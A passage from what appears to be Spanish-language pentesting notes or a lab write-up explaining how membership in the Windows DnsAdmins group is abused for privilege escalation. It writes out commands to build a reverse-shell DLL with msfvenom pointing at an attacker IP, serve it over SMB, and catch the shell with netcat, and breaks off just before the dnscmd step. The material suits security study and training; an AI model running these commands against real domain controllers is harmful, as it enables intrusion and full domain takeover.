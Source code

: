 Es crucial entender que esta característica no es un error del sistema, sino una funcionalidad de diseño. Sin embargo, en un entorno de red mal configurado o mal administrado, puede convertirse en un vector de ataque potencial.

Para obtener más información sobre el grupo `DnsAdmins`, se puede consultar el enlace a la documentación oficial de Microsoft: [Understand Security Groups](https://learn.microsoft.com/es-es/windows-server/identity/ad-ds/manage/understand-security-groups#dnsadmins).

### Explotación del Grupo DnsAdmins para Escalada de Privilegios

Para explotar la vulnerabilidad asociada con el grupo `DnsAdmins`, se sigue un procedimiento que consta de varios pasos y culmina en la **adquisición de una shell remota con privilegios elevados**. Toda esta información ha sido extraída del artículo [Windows Privilege Escalation : DnsAdmins to DomainAdmin](https://www.hackingarticles.in/windows-privilege-escalation-dnsadmins-to-domainadmin/). La secuencia de pasos es la siguiente:

1. **Creación de la DLL maliciosa**: La herramienta `msfvenom` de Metasploit se emplea para generar payloads de código malicioso. El comando es el siguiente:

```bash
r1pfr4n@parrot> msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.11 LPORT=443 -f dll > reverse_shell.dll
```

   En este comando, `-p` especifica el payload que se va a utilizar (`windows/x64/shell_reverse_tcp`, una shell reversa para sistemas Windows de 64 bits). Los parámetros `LHOST` y `LPORT` representan la dirección IP y el puerto del sistema atacante, respectivamente, mientras que `-f dll` indica que el output debe ser en formato DLL. Este comando se ejecuta en la máquina atacante.

2. **Despliegue del servicio SMB en la máquina atacante**: Esto se realiza para compartir la DLL maliciosa sin necesidad de subirla directamente a la máquina víctima. Para esto, se emplea el comando `smbserver.py` de la siguiente manera:

```bash
r1pfr4n@parrot> sudo smbserver.py shares $(pwd) -smb2support
```

   Aquí, `shares` es el nombre del recurso compartido que se creará, `$(pwd)` se usa para compartir el directorio actual, y `-smb2support` permite la compatibilidad con SMBv2.

3. **Configuración del listener**: Antes de activar el payload, es necesario configurar un listener para recibir la shell reversa. Esto se realiza con `netcat` en el puerto especificado en el payload (`443` en este caso):

```bash
r1pfr4n@parrot> sudo rlwrap nc -nlvp 443
```

   `rlwrap` se utiliza para mejorar la interacción con la shell remota que se reciba, ofreciendo funciones como la navegación mediante las teclas de flechas o el almacenamiento de historial de comandos. `nc` es netcat, `-n` evita las búsquedas DNS, `-l` coloca a netcat en modo de escucha, `-v` activa el modo verbose para obtener más detalles sobre la conexión, y `-p` especifica el puerto.

4. **Uso de `dnscmd.exe` para cargar la DLL maliciosa en el servidor DNS**: `dnscmd.exe` es una herramienta de línea de comandos para administrar el servidor DNS de Windows. En este caso, se usa para cambiar la configuración del servidor DNS y hacer que cargue la DLL maliciosa cada vez que se inicie el servicio DNS. Este comando se ejecuta en la máquina víctima:

